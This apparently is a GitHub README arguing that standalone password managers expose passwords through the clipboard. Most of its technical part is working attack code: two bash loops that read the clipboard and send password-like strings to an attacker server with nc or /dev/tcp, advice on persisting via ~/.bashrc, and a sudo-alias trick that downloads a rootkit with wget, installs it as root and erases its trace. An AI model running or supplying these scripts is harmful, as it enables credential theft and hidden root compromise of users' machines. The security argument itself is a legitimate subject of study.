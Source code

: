 # The Problem
I have a ton of paranoid friends that need passwords so strong they can't even remember them. They don't use long sentences or just humanly complex passwords, no. They use software that reads from `/dev/urandom` and generates some __16 to 32 characters long completely random alphanumeric strings__.

I have personally no problem with other people paranoias, unless it can cause harm or it is incoherent, and this can easily become both.

Since they know that exposing their passwords database to more attacks than needed is not a good idea, they usually avoid browser's plugins.

They just have the password manager as a standalone program  and this is *__BAD__*

Not
```
 ____    _    ____  
| __ )  / \  |  _ \ 
|  _ \ / _ \ | | | |
| |_) / ___ \| |_| |
|____/_/   \_\____/ 
```
but *__BAD__* indeed.

# The reasons
Having a browser plugin would mean being exposed to the risk of some very evil webpage that can escape the sandbox and read the plugin's memory.

Keylogging you while you type your master password would require high privileges on your machine, and if an attacker can keylog you you are screwed anyway.

The standalone password manager looks like a solution that prevents any non-root application from having you passwords. No malicious plugin or webpage can access the application's memory which is protected by the kernel, so you are safe.

Which is wrong.

If the attacker can compromise your browser and run code with your user's privileges, you are exposed to the same risk.

Why?

Because no one has the time to manually type 32 characters long passwords, and if I can get my code running on your machine, you can be *sure* the one thing I will read is the clipboard. If I can't get root privileges and I can't monitor you keyboard I can for sure always read your clipboard.

I will not talk about windows because it is so easy to [read other applications' memory](https://msdn.microsoft.com/en-us/library/ms680553%28VS.85%29.aspx) with normal user privileges that reading the clipboard becomes purposeless.

# The code
Assumptions:
 1. I broke in some way into your system and I can write to a file (i.e. I broke out of the browser's sandbox or found a way to make you open some app or script I have control on.)
 1. Your passwords are safely Stored into your password manager
 1. You are lazy
 1. You are a nerd

Writing to a file in *NIX systems equals running some code at some point thanks to (4): just append your command to ~/.bashrc or ~/.zshrc and wait for the user to open the terminal.

So, we have some code running on a system we know barely anything about and with just user privileges. Let's steal your passwords.

This is more cross platform but requires `nc`
```sh
#TODO test on macosx
lastpass=""
[[ "$(uname -s)" =~ Linux ]] && pbpaste(){ xclip -selection clipboard -o ; }
while :
do
	clipboard="$(pbpaste)"
	[[ "$clipboard" != "$lastpass" ]] &&
		[[ "$clipboard" =~ $REGEXTHATMATCHESPASSWORD ]] &&
			echo -n "$clipboard" | nc -c $evilserver &&
				lastpass="$clipboard"
	sleep 1
done
```

This only works on linux and only on bash, but does not depend on `netcat`, which can be quite unreliable [¹](https://serverfault.com/questions/512722/automatically-close-netcat-connection) [²](https://superuser.com/questions/691008/why-is-the-e-option-missing-from-netcat-openbsd) [³](https://unix.stackexchange.com/questions/193579/nc-commands-k-option)
```sh
#! /bin/env bash
evilserver="localhost/5555"
lastpass=""
while :
do
	clipboard="$(xclip -selection clipboard -o)"
	[[ "$clipboard" != "$lastpass" ]] &&
		[[ "$clipboard" =~ ^REGEXTHATMATCHESPASSWORD$ ]] &&
			echo -n "$clipboard" > "/dev/tcp/$evilserver" &&
				lastpass="$clipboard"
	sleep 1
done

```
`REGEXTHATMATCHESPASSWORD` will probably be something that looks like this: `^[A-Za-z0-9]{16}$`

And

`evilserver` is going to be `1.3.3.7/1337` in the first case and `1.3.3.7 1337` in the last one.

# Conclusion

Well, I could get your passwords when I normally wouldn't if you hadn't a password manager.

One can probably object that having your browser compromised and your passwords stolen from a plugin is more likely than having someone else's code running on your machine, but if you are a developer or a common nerd, I am pretty sure you have some unsigned code running on your machine that you didn't inspect.

# Alternative Conclusion AKA Privilege escalation is not that hard

If you can write to the `.(ba|z)shrc` file, there is a funnier trick you can do:

```sh
wget 'evlisite/rootkit' -O $SOMEFOLDER/.rootkit

echo 'alias sudo="chmod +x $SOMEFOLDER/.rootkit && sudo $SOMEFOLDER/.rootkit --install && rm $SOMEFOLDER/.rootkit && truncate .bashrc -s -$(tail -n 1 .bashrc | wc -c) ; sudo"' >> ~/.bashrc
```

In this way the first time the user uses `sudo somecommand` she will be prompted for her password once and she will see her command run as root. What she will not know is that the rootkit has been installed and the .bashrc file restored to its original content.
